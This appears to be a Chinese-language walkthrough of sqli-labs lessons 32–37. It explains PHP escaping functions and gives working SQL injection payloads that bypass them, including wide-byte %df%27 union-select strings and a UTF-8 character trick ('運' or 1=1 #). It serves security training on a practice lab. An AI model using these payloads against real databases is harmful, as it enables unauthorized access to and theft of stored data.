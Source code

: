 	addslashes() 函数返回在预定义字符之前添加反斜杠的字符串，预定义字符为：'   "  \</br>
	addslashes()并未将反斜杠一起写入数据库，只是帮助mysql完成了sql语句的执行
  	function check_addslashes($string)
  	{
  		$string= addslashes($string);    
  		return $string;
  	}
	例?id=-1%27%20union%20select%201,version(),user()%20%27</br>
	The filtered request is :-1\' union select 1,version(),user() \'</br>

	?id=-1%df%27%20union%20select%201,version(),user()%23</br>
	返回:</br>
  Your Login name:5.7.23-0ubuntu0.16.04.1</br>
	Your Password:root@localhost

- **less 33 GET -  Bypass AddSlashers()**</br>
	?id=-1%df%27%20union%20select%201,version(),user()%23和less32一样

- **less 34 POST - Bypass AddSlashers()**</br>
	post型的方式我们是以url形式 提交的，因此数据会通过URLencode，如何将方法用在post型的注入当中，我们此处介绍 一个新的方法。将utf-8转换为utf-16或utf-32，例如将‘转为utf-16为' 。我们就 可以利用这个方式进行尝试。</br>

	運' or 1=1 # 成功，猜测: 在后台運会被解析成%df%5c </br>
	SELECT username, password FROM users WHERE username='運\' or 1=1# ' and password='' LIMIT 0,1

- **less 35 GET - Bypass Add Slashes(we dont need them) Integer Based**</br>
	php中：$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";</br>
	可以看出，不需要构造特殊符号</br>
	?id=-1%20union%20select%201,version(),user()%23</br>

- **less 36 GET - Bypass mysql_real _escape _string**</br>
	mysql_real_escape_string(string,connection) 转义 SQL 语句中使用的字符串中的特殊字符</br>
	string 必需，要转义的字符串</br>
	connection 可选，规定 MySQL 连接。如果未规定，则使用上一个连接</br>
  	\x00  ascii码 null
  	\n	换行
  	\r	回车
  	\
  	'
  	"
  	\x1a （即十进制26）&
	这些字符会被转义</br>

  	function check_quotes($string)
  	{
  		$string= mysql_real_escape_string($string);    
  		return $string;
  	}
  	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

	?id=-1%df%27%20union%20select%201,version(),user()%23 成功

- **less 37 POST - Bypass mysql_real_escape_string** </br>
	運' or 1=1 #

---------------------------------------------------
